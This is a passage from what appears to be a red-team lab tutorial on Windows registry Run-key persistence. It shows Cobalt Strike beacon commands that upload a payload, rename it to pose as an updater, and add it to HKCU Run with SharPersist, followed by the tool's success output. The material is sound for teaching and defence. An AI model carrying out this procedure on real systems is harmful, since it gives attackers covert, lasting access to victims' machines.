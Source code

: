 AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

Generate a Windows EXE payload and upload it to the target.

```shell
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\beacon-http.exe
beacon> mv beacon-http.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```

Where:

-   `-k` is the registry key to modify.
-   `-v` is the name of the registry key to create.

  

As before, you can test this by rebooting the VM.